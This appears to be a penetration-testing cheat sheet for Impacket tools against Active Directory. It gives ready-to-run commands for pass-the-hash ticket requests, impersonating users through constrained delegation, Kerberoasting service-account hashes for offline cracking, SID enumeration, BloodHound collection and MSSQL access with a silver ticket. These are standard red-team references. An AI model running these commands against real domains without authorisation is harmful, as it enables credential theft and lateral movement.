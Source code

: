 
## GetTGT.py

Given a password, hash or aesKey, this script will request a TGT and save it as ccache.
```bash
getTGT.py -hashes lm:nt domain.com/user
# Saved as ccache 
impacket-getTGT -dc-ip $dcIP $domain/$username:$password
# Use ccache file on linux to do remote Bloodhound
KRB5CCNAME=$username.ccache python3 /opt/Bloodhound.py/bloodhound.py -k -dc dc.$domain.$tld -ns $IP -c all -d domain.$tld -u $username > /tmp/
```

## GetST.py

Given a password, hash, aesKey or TGT in ccache, this script will request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate.
switch to request the ticket on behalf another user.
```bash
getST.py -hashes $lm:$nt -spn $spn/$spn-dc $domain$/$user
```

## GetUserSPNs.py

This example will try to find and fetch Service Principal Names that are associated with normal user accounts. Output is compatible with [[John-The-Ripper-Cheatsheet]] and [[Hashcat-Cheatsheet]] .
```bash
GetUserSPNs.py -dc-ip $ip $domain.local/$user -request # provide a password
GetUserSPNs.py -dc-ip $dc-ip $spn.info/$notanadmin
```

## lookupsid.py

Requires NTLM authentication
```bash
lookupsid.py $target
```

## mssqlclient.py

Connect to Microsoft SQL databases
```bash
# Connect to a Microsoft SQL server
impacket-mssqlclient -port $PORT $domain/$sql_svc 
# As a user with Windows Authenciation
impacket-mssqlclient $user:$hostname@$IP -windows-auth
# Specify a database instance
-db $database_instance
# If to are targeting a DC 
-dc-ip 
# Do prompt for password
-no-pass


mssqlclient.py -port $PORT $domain/$user@$IP -windows-auth
# Example with kerberos Authentication from a silver ticket with ccache file
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -no-pass -k $domain.local/Administrator@dc1.$domain.local
```
